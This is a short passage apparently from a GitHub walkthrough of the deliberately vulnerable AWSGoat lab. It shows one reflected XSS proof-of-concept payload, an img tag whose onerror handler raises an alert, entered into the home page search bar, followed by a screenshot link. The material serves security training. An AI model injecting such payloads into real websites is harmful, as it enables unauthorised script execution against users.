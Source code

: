# Vulnerabilities Exploited

### Reflected XSS

On Home Page search bar type: <img src="A" onerror=alert('XSS')>  

![Screenshot_2023-10-12_10_40_55](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/60b9e024-8a18-41f2-bba5-a3a2a4ccc517)

